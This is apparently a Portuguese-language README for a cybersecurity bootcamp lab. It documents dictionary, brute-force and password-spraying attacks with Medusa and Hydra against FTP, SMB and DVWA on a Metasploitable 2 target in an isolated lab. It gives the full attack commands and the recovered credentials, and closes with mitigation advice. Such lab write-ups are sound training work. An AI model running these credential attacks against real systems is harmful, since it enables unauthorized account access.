

# Simulação de Ataque de Força Bruta com Medusa e Kali Linux

> **Projeto Prático de Cibersegurança**  
> **Bootcamp Santander Cibersegurança 2024 / 2025 - DIO**  
> **Autor:** Lucas Rolim ([@lucasrolim96](https://github.com/lucasrolim96))

---

## Sumário
- [1. Visão Geral](#1-visão-geral)
- [2. Ambiente do Laboratório](#2-ambiente-do-laboratório)
- [3. Conceitos Aplicados](#3-conceitos-aplicados)
  - [Força Bruta vs Ataque de Dicionário](#força-bruta-vs-ataque-de-dicionário)
  - [Password Spraying vs Credential Stuffing](#password-spraying-vs-credential-stuffing)
- [4. Reconhecimento e Descoberta de Serviços](#4-reconhecimento-e-descoberta-de-serviços)
- [5. Cenários Práticos Executados](#5-cenários-práticos-executados)
  - [Cenário 1: Auditoria em Serviço FTP com Medusa](#cenário-1-auditoria-em-serviço-ftp-com-medusa)
  - [Cenário 2: Automação em Formulário Web (DVWA)](#cenário-2-automação-em-formulário-web-dvwa)
  - [Cenário 3: Enumeração de Usuários e Password Spraying em SMB](#cenário-3-enumeração-de-usuários-e-password-spraying-em-smb)
- [6. Validação dos Acessos](#6-validação-dos-acessos)
- [7. Comparativo entre Ferramentas de Auditoria](#7-comparativo-entre-ferramentas-de-auditoria)
- [8. Medidas de Mitigação e Hardening](#8-medidas-de-mitigação-e-hardening)
- [9. Estrutura do Repositório](#9-estrutura-do-repositório)
- [10. Conclusão e Autor](#10-conclusão-e-autor)

---

## 1. Visão Geral

Este repositório documenta a execução prática do laboratório de simulação de ataques de autenticação utilizando **Kali Linux** e a ferramenta **Medusa**, realizado como parte do Bootcamp Santander Cibersegurança na plataforma DIO.

Durante o laboratório, foram explorados serviços intencionalmente vulneráveis no **Metasploitable 2** (como FTP, Samba/SMB e a aplicação web DVWA). O objetivo foi compreender o funcionamento técnico de ferramentas de quebra de credenciais online, avaliar as limitações operacionais de cada abordagem e, principalmente, estruturar recomendações sólidas de defesa e mitigação (*Blue Team*).

---

## 2. Ambiente do Laboratório

O ambiente foi configurado no **Oracle VM VirtualBox**, composto por duas máquinas virtuais conectadas exclusivamente em uma rede interna isolada (*Host-Only Network / vboxnet0*), garantindo total isolamento e segurança durante os testes:

- **Atacante / Auditor:** Kali Linux (IP: `192.168.56.102`)
- **Alvo Vulnerável:** Metasploitable 2 (IP: `192.168.56.101`)



---

## 3. Conceitos Aplicados

### Força Bruta vs Ataque de Dicionário
- **Força Bruta Pura (*Exhaustive Brute Force*):** Gera e testa todas as permutações possíveis de caracteres sequencialmente (ex: a, aa, ab... 1234). Torna-se impraticável rapidamente à medida que o tamanho da senha aumenta.
- **Ataque de Dicionário (*Dictionary Attack*):** Testa palavras pré-compiladas com base em senhas comuns e vazamentos históricos (ex: `rockyou.txt`), reduzindo o tempo de teste e aumentando as chances de sucesso contra credenciais fracas.

### Password Spraying vs Credential Stuffing
| Abordagem | Funcionamento | Comportamento no Sistema | Risco de Bloqueio |
| :--- | :--- | :--- | :--- |
| **Força Bruta Convencional** | Centenas ou milhares de senhas contra **1 único usuário**. | Muitas falhas consecutivas na mesma conta. | **Alto**: Dispara a política de *Account Lockout* rapidamente. |
| **Password Spraying** | **1 ou 2 senhas comuns** testadas contra **vários usuários diferentes**. | Poucas tentativas por conta, distribuídas no tempo. | **Baixo**: Bula políticas de bloqueio baseadas em tentativas consecutivas por usuário. |
| **Credential Stuffing** | Pares de `usuario:senha` vazados em outros serviços testados em massa. | Testa credenciais conhecidas. | Efetivo devido ao mau hábito de reutilização de senhas entre serviços. |

---

## 4. Reconhecimento e Descoberta de Serviços

Antes de iniciar os testes de credenciais, foram realizados o teste de conectividade e a identificação de portas abertas no alvo:

```bash
# 1. Testar conectividade ICMP
ping -c 3 192.168.56.101

# 2. Varredura direcionada com Nmap
nmap -p 21,22,80,139,445 -sV -sC -Pn 192.168.56.101
```

**Serviços identificados:**
- **Porta 21/TCP:** `vsftpd 2.3.4` (File Transfer Protocol)
- **Porta 80/TCP:** `Apache httpd 2.2.8` (Servidor web hospedando DVWA)
- **Portas 139 e 445/TCP:** `Samba 3.0.20-Debian` (Compartilhamento de arquivos SMB)

---

## 5. Cenários Práticos Executados

### Cenário 1: Auditoria em Serviço FTP com Medusa

O protocolo FTP transmite credenciais em texto claro e, em serviços desatualizados, frequentemente não impõe limites para tentativas incorretas de logon.

**Comando executado:**
```bash
medusa -h 192.168.56.101 \
       -U wordlists/users_common.txt \
       -P wordlists/passwords_common.txt \
       -M ftp \
       -t 4 \
       -f \
       -v 4 \
       -O medusa_ftp_result.txt
```

**Significado das opções utilizadas:**
- `-h 192.168.56.101`: Endereço IP do alvo.
- `-U wordlists/users_common.txt`: Arquivo com a lista de usuários a testar.
- `-P wordlists/passwords_common.txt`: Arquivo com a lista de senhas a testar.
- `-M ftp`: Módulo para teste do protocolo FTP.
- `-t 4`: Número de threads simultâneas para não sobrecarregar o serviço.
- `-f`: *(Stop on first success)* Interrompe a execução assim que encontrar uma credencial válida no host.
- `-v 4`: Nível de verbosidade detalhado para acompanhar o progresso.
- `-O medusa_ftp_result.txt`: Salva o resultado positivo em arquivo.

**Credencial identificada:**
```text
ACCOUNT FOUND: [ftp] Host: 192.168.56.101 User: msfadmin Password: msfadmin [SUCCESS]
```

---

### Cenário 2: Automação em Formulário Web (DVWA)

O **DVWA** (*Damn Vulnerable Web Application*) possui uma página específica para testes de força bruta (`/dvwa/vulnerabilities/brute/`).

Diferente de serviços de rede simples como FTP, formulários web utilizam requisições HTTP GET/POST, dependem de cookies de sessão (`PHPSESSID`) e retornam códigos HTTP 200 tanto para sucesso quanto para falha, exigindo validação por string de erro.

Como abordado durante as aulas, embora o Medusa possua módulo HTTP básico, o **THC-Hydra** é a ferramenta ideal para formulários web com sessão:

```bash
hydra -l admin -P wordlists/passwords_common.txt 192.168.56.101 http-get-form \
  "/dvwa/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=seu_cookie_aqui"
```

---

### Cenário 3: Enumeração de Usuários e Password Spraying em SMB

Em ambientes corporativos com Windows ou Samba, a força bruta tradicional gera bloqueio imediato das contas. O **Password Spraying** contorna isso testando uma única senha corporativa comum contra múltiplos usuários válidos.

#### 1. Enumeração prévia de usuários
Com ferramentas como `enum4linux`, foi possível enumerar os usuários existentes no Samba do Metasploitable 2:
```bash
enum4linux -U 192.168.56.101
```
Os nomes foram organizados no arquivo `wordlists/smb_users.txt`.

#### 2. Execução do Password Spraying com Medusa
```bash
medusa -h 192.168.56.101 \
       -U wordlists/smb_users.txt \
       -p "msfadmin" \
       -M smbnt \
       -t 2 \
       -v 4
```
- `-p "msfadmin"`: Define uma única senha para ser testada contra todos os usuários (`-U`).
- `-M smbnt`: Módulo para autenticação NTLM em serviços SMB.

---

## 6. Validação dos Acessos

Após a identificação das credenciais pelas ferramentas, foi feita a validação manual dos acessos para confirmar os privilégios obtidos.

### Validação do Acesso FTP:
```bash
ftp 192.168.56.101
# Entrada: msfadmin / msfadmin
ftp> ls
ftp> exit
```

### Validação do Acesso SMB com `smbclient`:
```bash
# Listar compartilhamentos disponíveis
smbclient -L //192.168.56.101 -U msfadmin%msfadmin

# Conectar ao compartilhamento /tmp
smbclient //192.168.56.101/tmp -U msfadmin%msfadmin
```

---

## 7. Comparativo entre Ferramentas de Auditoria

Durante o módulo foram apresentadas diversas ferramentas do ecossistema Kali Linux:

| Ferramenta | Camada de Operação | Principais Vantagens | Melhores Casos de Uso |
| :--- | :--- | :--- | :--- |
| **Medusa** | Online (Rede) | Extremamente estável, modular em C, paralelização rápida em serviços diretos (FTP, SMB, SSH). | Auditorias rápidas em portas de rede conhecidas. |
| **THC-Hydra** | Online (Rede) | Excelente suporte a formulários web modernos (GET/POST), cookies, tokens CSRF e proxies. | Autenticação web e formulários complexos. |
| **Ncrack** | Online (Rede) | Motor adaptativo que ajusta dinamicamente a taxa de envio conforme a latência e perda de pacotes da rede. | Avaliação em larga escala de redes com múltiplos hosts. |
| **Patator** | Online (Rede) | Modular em Python, aceita regex e regras customizadas para requisições não convencionais. | Protocolos específicos ou respostas atípicas de servidores. |
| **John the Ripper** | Offline (Host) | Quebra de hashes locais (`/etc/shadow`, NTLM, Kerberos) com aceleração por CPU/GPU e regras de mutação. | Quebra de credenciais pós-exfiltração de dados. |
| **WPScan** | Aplicação Web | Auditoria dedicada à plataforma WordPress (plugins, temas, usuários e XML-RPC). | Testes de invasão direcionados a sites WordPress. |

*(Para uma análise técnica detalhada, veja o documento [docs/comparativo-ferramentas.md](docs/comparativo-ferramentas.md)).*

---

## 8. Medidas de Mitigação e Hardening

Como profissionais de segurança, o objetivo principal dos testes de intrusão é orientar as medidas de proteção (*Blue Team*). As principais contramedidas aplicáveis são:

1. **Autenticação Multifator (MFA / 2FA):**  
   Mesmo que o atacante descubra a senha correta em um ataque de dicionário ou spraying, o acesso não é concedido sem o segundo fator de autenticação (TOTP ou chave FIDO2).
2. **Políticas de Bloqueio de Conta (*Account Lockout*):**  
   Configurar no Linux o módulo PAM `pam_faillock` (ou `pam_tally2` em versões legadas) para bloquear contas temporariamente após 3 a 5 falhas consecutivas.
3. **Rate Limiting no Firewall com Fail2Ban:**  
   Monitorar logs de autenticação (`/var/log/auth.log` e `/var/log/vsftpd.log`) e bloquear temporariamente no firewall (`iptables`/`nftables`) IPs que gerem excesso de erros de login.
4. **Hardening do Serviço SMB:**  
   Desabilitar o protocolo legado SMBv1, exigir assinatura digital de pacotes (`server signing = mandatory`) e desativar conexões anônimas (*null sessions*).
5. **Proteções em Aplicações Web:**  
   Implementar CAPTCHAs progressivos após falhas consecutivas e aplicar regras em WAF (*Web Application Firewall*) para conter requisições repetitivas no endpoint de login.

*(O repositório inclui uma demonstração prática em Python sobre rate limiting e detecção de spraying em [scripts/defense_rate_limiter.py](scripts/defense_rate_limiter.py), além de um estudo aprofundado sobre rotação de IP com Proxychains em [docs/proxychains-e-evasao.md](docs/proxychains-e-evasao.md)).*

---

## 9. Estrutura do Repositório

```text
dio-lab-bruteforce-medusa/
│
├── README.md                      # Documentação completa do projeto
├── .gitignore                     # Filtros para logs e arquivos temporários
│
├── anotacoes-obsidian/            # Caderno de anotações técnicas para o Obsidian
│   ├── MOC - Brute Force com Medusa.md  # Dashboard e mapa de conteúdo interativo
│   ├── 01 - Preparacao do Laboratorio no VirtualBox.md
│   ├── 02 - Reconhecimento e Varredura com Nmap.md
│   ├── 03 - Ataque em FTP com Medusa.md
│   ├── 04 - Forca Bruta Web no DVWA.md
│   ├── 05 - Enumeracao e Password Spraying em SMB.md
│   ├── 06 - Rotacao de IP com Proxychains e Tor.md
│   ├── 07 - Mitigacoes e Hardening Blue Team.md
│   └── attachments/               # Imagens e diagramas incorporados no Obsidian
│
├── docs/
│   ├── medusa-cheatsheet.md       # Cheat sheet com sintaxe, módulos e opções do Medusa
│   ├── comparativo-ferramentas.md # Estudo comparativo das ferramentas abordadas no curso
│   ├── guia-mitigacao-hardening.md# Guia prático de defesa, PAM, Fail2Ban e Hardening
│   └── proxychains-e-evasao.md    # Análise sobre Proxychains, rotação de IP e contramedidas
│
├── scripts/
│   ├── network_recon.sh           # Script em Bash para reconhecimento com Nmap
│   ├── medusa_ftp_audit.sh        # Automação de teste no serviço FTP
│   ├── medusa_smb_spraying.sh     # Automação de Password Spraying em SMB
│   ├── medusa_proxychains_audit.sh# Execução encapsulada via Proxychains / Tor
│   └── defense_rate_limiter.py    # Script didático em Python demonstrando defesas
│
├── wordlists/
│   ├── users_common.txt           # Lista de usuários comuns para testes
│   ├── passwords_common.txt       # Dicionário de senhas fracas comuns
│   └── smb_users.txt              # Usuários enumerados para teste de SMB
│
└── images/
    └── README.md                  # Orientações para organização de capturas de tela
```

---

## 10. Conclusão e Autor

Os testes executados comprovaram que senhas previsíveis e serviços sem limites de tentativas representam uma das portas de entrada mais comuns para invasores em ambientes corporativos. A segurança efetiva de uma rede depende da aplicação do princípio de **Defesa em Profundidade** (*Defense in Depth*), combinando senhas fortes, MFA, monitoramento de logs e políticas rigorosas de bloqueio.

---

### Autor
- **Lucas Rolim**
- **GitHub:** [lucasrolim96](https://github.com/lucasrolim96)
- **Projeto desenvolvido para:** Bootcamp Santander Cibersegurança - [DIO](https://dio.me)
